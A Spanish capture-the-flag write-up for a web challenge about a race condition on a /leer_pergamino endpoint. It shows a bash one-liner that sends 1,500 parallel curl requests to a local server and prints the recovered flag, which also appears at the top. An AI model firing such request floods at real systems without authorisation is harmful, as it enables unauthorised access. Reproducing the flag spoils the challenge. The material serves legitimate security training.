 # La Carrera del Shinobi

* Web
* Author: NikNitro!
* Medio
* flags: Gyobu_Masataka_Oniwa
fc248434ec096bf3f4b2fda5d8013341 

## Descripción
En una fortaleza escondida en las montañas de Ashina, el Pergamino Sagrado está protegido por un habilidoso guardián shinobi. Nadie ha logrado descifrar los secretos que contiene, pues solo el guardián puede leer el pergamino.

Sin embargo, los más habilidosos pueden explotar un error en su vigilancia: cuando otro aspirante intenta acercarse al Pergamino Sagrado, es posible escabullirse del guardián. ¿Podrás aprovechar el momento exacto para robar el pergamino sin ser detectado?


## WriteUp

La web redirige al endpoint /leer_pergamino, en el cual se da el mensaje: "El guardián no te permite leer el pergamino."

Esta web tiene una race condition (de ahí el nombre) que hace que el pergamino sea legible durante unos pocos milisegundos, dos segundos tras el primer intento. Teniendo claro eso, unas mil quinientas peticiones automáticas con Curl serían suficientes para obtener la flag:

```bash
┌──(niknitro㉿NikNitro)-[~/NavajaNegra24_LaCarreraDelShinobi]
└─$ seq 1 1500 | xargs -I{} -P10 curl -s http://localhost:8997/leer_pergamino | grep "flag"
{"pergamino":"flag{Gyobu_Masataka_Oniwa}"}
{"pergamino":"flag{Gyobu_Masataka_Oniwa}"}
{"pergamino":"flag{Gyobu_Masataka_Oniwa}"}
{"pergamino":"flag{Gyobu_Masataka_Oniwa}"}
{"pergamino":"flag{Gyobu_Masataka_Oniwa}"}

```

